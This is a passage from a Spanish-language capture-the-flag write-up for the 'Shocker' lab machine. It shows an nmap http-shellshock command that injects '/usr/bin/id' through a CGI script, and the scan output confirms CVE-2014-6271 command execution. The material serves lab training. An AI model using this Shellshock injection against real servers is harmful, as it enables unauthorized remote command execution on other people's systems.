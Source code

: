 <p align="center">
    <img src="../../../assets/CTFs/Shocker/20240426011351.png" alt="3" width="100%" height="auto">
</p>

Adicional a tener en cuenta es introducir los binarios del sistema con su ruta absoluta como se ve a continuación:

```bash
nmap -p80 --script http-shellshock --script-args uri='http://10.10.10.56/cgi-bin/user.sh',cmd='echo; /usr/bin/id' 10.10.10.56
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 01:10 -05
Nmap scan report for 10.10.10.56
Host is up (0.084s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     Exploit results:
|       uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|_      http://seclists.org/oss-sec/2014/q3/685

Nmap done: 1 IP address (1 host up) scanned in 1.00 seconds
```